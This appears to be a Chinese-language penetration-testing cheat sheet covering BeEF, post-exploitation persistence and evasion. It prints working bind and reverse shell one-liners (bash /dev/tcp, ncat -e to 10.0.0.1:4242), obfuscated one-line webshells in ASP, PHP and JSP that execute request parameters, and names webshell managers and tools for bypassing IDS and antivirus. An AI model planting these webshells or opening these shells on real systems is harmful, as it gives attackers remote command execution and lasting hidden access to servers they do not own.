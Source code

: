## BeEF
BeEF是浏览器开发框架(Browser Exploitation Framework)的缩写。它是一个专注于web浏览器的渗透测试工具。在对客户端(包括移动客户端)遭受网络攻击的日益关注中，BeEF允许专业渗透测试人员通过使用客户端攻击向量来评估目标环境的实际安全态势。

使用手册：[https://github.com/beefproject/beef/wiki/Introducing-BeEF](https://github.com/beefproject/beef/wiki/Introducing-BeEF)

# 维持（Persistence）
维持在PTES中属于后渗透阶段，在渗透进目标系统后，一方面提权到最高权限，另一方面就是维持最高权限的访问。可以通过添加帐户，通过开启一个网络服务监听连接，可以反弹shell等。

## bind shell
nc -lvp 4242 -e /bin/bash

## reverse shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1 <br>
sh -i >& /dev/udp/10.0.0.1/4242 0>&1<br>
ncat 10.0.0.1 4242 -e /bin/bash<br>
ncat --udp 10.0.0.1 4242 -e /bin/bash

## asp一句话木马
```
<%eVAl reQuEst("asp")%><br>
<%exECuTe ReqUEst("asp")%><br>
<%eXECutegLobaL rEquEst("asp")%>
```

## php一句话木马
```
<?php @eval($_POST['php']);?>
```

## jsp一句话木马
```
<%Runtime.getRuntime().exec(request.getParameter("jsp"));%>
```

## WebShell 管理工具
常用的有 中国菜刀，蚁剑，冰蝎

## 其他维持工具
RDP， Apple Remote Desktop， VNC， X server forwarding， PowerSploit， Empire

# 规避（Evasion）
前面提到脆弱性扫描，发现脆弱性后利用，渗透进入系统之后维持访问以及权限，接下来要做的一方面是隐藏流量，让入侵不容易被发现，另一方面要绕过各种安全控制比如IDS，anti virus等
